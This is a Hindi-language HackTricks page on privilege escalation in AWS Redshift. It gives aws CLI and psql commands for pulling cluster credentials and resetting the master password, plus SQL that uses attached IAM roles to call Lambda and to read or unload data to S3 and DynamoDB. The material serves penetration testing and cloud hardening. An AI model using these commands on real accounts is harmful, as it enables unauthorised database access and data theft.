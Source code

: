 # AWS - Redshift Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## Redshift

RDS के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-databases/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-databases/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

इन अनुमतियों के साथ आप **सभी क्लस्टर्स की जानकारी** (नाम और क्लस्टर यूजरनेम सहित) प्राप्त कर सकते हैं और **पहुँच के लिए क्रेडेंशियल्स प्राप्त कर सकते हैं**:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी ढूंढना।

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

इन अनुमतियों के साथ आप **सभी क्लस्टर्स की जानकारी** प्राप्त कर सकते हैं और **प्रवेश के लिए क्रेडेंशियल्स प्राप्त कर सकते हैं**।\
ध्यान दें कि postgres उपयोगकर्ता के पास वही **अनुमतियां होंगी जो IAM पहचान** क्रेडेंशियल्स प्राप्त करने के लिए इस्तेमाल की गई थी।
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

aws cli से आंतरिक postgres (redshit) उपयोगकर्ता का **मास्टर पासवर्ड संशोधित करना** संभव है (मुझे लगता है कि आपको ये अनुमतियाँ चाहिए होती हैं लेकिन मैंने अभी तक उन्हें परीक्षण नहीं किया है):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी ढूंढना।

## बाहरी सेवाओं तक पहुंच

{% hint style="warning" %}
निम्नलिखित संसाधनों तक पहुंचने के लिए, आपको **उपयोग करने के लिए भूमिका निर्दिष्ट करनी होगी**। एक Redshift क्लस्टर के पास **AWS भूमिकाओं की एक सूची हो सकती है** जिसे आप उपयोग कर सकते हैं **यदि आप ARN जानते हैं** या आप सिर्फ "**default**" सेट कर सकते हैं ताकि डिफ़ॉल्ट भूमिका का उपयोग किया जा सके।

इसके अलावा, जैसा कि [**यहाँ बताया गया है**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift आगे की पहुंच प्राप्त करने के लिए भूमिकाओं को जोड़ने की भी अनुमति देता है (जब तक पहली भूमिका दूसरी को मान सकती है) बस उन्हें **अल्पविराम** के साथ **अलग** करके: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

जैसा कि [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html) में समझाया गया है, redshift से **lambda फ़ंक्शन को कॉल करना संभव है** इस तरह से:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

जैसा कि [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html) में समझाया गया है, **S3 buckets में पढ़ने और लिखने** की संभावना है:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

जैसा कि [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html) में समझाया गया है, **dynamodb से डेटा प्राप्त करना** संभव है:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
आपके क्लस्टर के समान AWS Region में Amazon DynamoDB टेबल बनाया जाना चाहिए, जब तक कि आप [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) विकल्प का उपयोग नहीं करते ताकि उस AWS Region को निर्दिष्ट कर सकें जिसमें Amazon DynamoDB टेबल स्थित है।
{% endhint %}

### EMR

[https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html) देखें।

## संदर्भ

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**।
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
